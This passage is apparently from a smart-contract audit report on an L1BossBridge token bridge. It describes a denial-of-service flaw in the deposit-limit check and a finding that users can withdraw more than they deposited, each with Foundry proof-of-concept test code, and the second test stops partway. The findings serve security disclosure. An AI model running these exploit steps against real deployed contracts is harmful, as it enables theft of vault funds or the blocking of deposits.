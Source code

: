 ```javascript
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
```

**Impact:** Consequently, user will not be able to deposit tokens on L2.

**Proof of Concept:**
Include the following test suite in the `L1TokenBridge.t.sol`.



```javascript
    function testDoSAttack() public{
        address attacker = makeAddr("attacker");
        uint256 attackerAmount = 20;

        deal(address(token), attacker, attackerAmount);
        vm.startPrank(attacker); //attacker performing DoS attack
        token.transfer(address(vault), 20);
        vm.stopPrank();

        vm.startPrank(user);
        uint256 userAmount = tokenBridge.DEPOSIT_LIMIT() -1;
        deal(address(token), user, userAmount);
        token.approve(address(tokenBridge), userAmount);

        vm.expectRevert(L1BossBridge.L1BossBridge__DepositLimitReached.selector);
        tokenBridge.depositTokensToL2(user, userInL2, userAmount);

    }
```



**Recommended Mitigation:** Consider using the internal mapping to check for the deposit limit instead of balanceOf().



### [H-6] Lack of validation in `L1BossBridge::withdrawTokensToL1` allows malicious user to withdraw more funds than they deposited.

**Description:** The `L1BoosBridge::withdrawTokensToL1` function has no validation on the withdrawl amount being the samw as the deposited amount.

**Impact:** Consequently, this will lead to a malicious user can deposit small amount of tokens and drain the entire vault.

**Proof of Concept:**


```javascript
    function testUserCanWithdrawMoreTokensThanDeposited() public{
        uint256 userDepositedAmount = 100e18;
        deal(address(token), user, userDepositedAmount);

        vm.startPrank(user);
        token.approve(address(tokenBridge), userDepositedAmount);
        tokenBridge.depositTokensToL2(user, userInL2, userDepositedAmount);
        vm.stopPrank();

        address attacker = makeAddr("attacker");
        uint256 attackerDepositedAmount = 30;
        deal(address(token), attacker, attackerDepositedAmount);

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), attackerDepositedAmount);
        tokenBridge.depositTokensToL2(attacker, userInL2, attackerDepositedAmount);
```
